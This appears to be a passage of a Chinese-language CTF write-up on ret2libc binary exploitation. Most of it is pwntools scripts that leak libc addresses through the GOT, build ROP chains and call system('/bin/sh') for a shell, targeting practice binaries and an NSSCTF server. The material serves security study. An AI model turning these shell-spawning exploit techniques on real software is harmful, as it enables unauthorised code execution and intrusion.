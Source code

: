 ```python

p.sendline(payload)

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('puts_addr: ' + hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload = b'a' * (0x40 + 8)
payload += p64(ret) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr)
p.recvuntil(b'name it!!!\n')
p.sendline(payload)

p.interactive()
```
# ret2libc2
`one_gadget`类型的题目。
需要先想办法泄漏`libc`基址，因为不能直接控制`pop rdi; ret` 需要找别的方法。
![[Pasted image 20250302222628.png]]
能想到的方法就是利用`printf`函数将函数的`got`泄漏出来
![[Pasted image 20250302222757.png]]
从汇编可以看出这里将`rbp - 0x10`赋给`rax`，所以在第一次`read`时将某一函数的`got + 0x10`放在此处即可，如下图
![[Pasted image 20250302223055.png]]
泄漏之后可以算出`libc`基址，查找使用哪个`gadget`
![[Pasted image 20250302223226.png]]
可以发现都需要`rbp-0xXX`可以执行，可以看到有`leave ret`，将`rbp`迁移到一个可执行的位置即可。
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
ip = 'node2.anna.nssctf.cn'
port = 28713
if local:
	p = process('./ret2libc2')
	pwnlib.gdb.attach(p, 'b func')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./ret2libc2')
libc = ELF('./libc.so.6')
ret = 0x40101a

p.recvuntil(b'magic')
payload = p64(elf.got['puts']) + b'\x00' * 0x28 + p64(elf.got['setvbuf'] + 0x10) + p64(0x401223)
p.send(payload)

p.recvuntil(b'\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success('puts_addr: ' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['setvbuf']
log.success('libc_base: ' + hex(libc_base))

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
```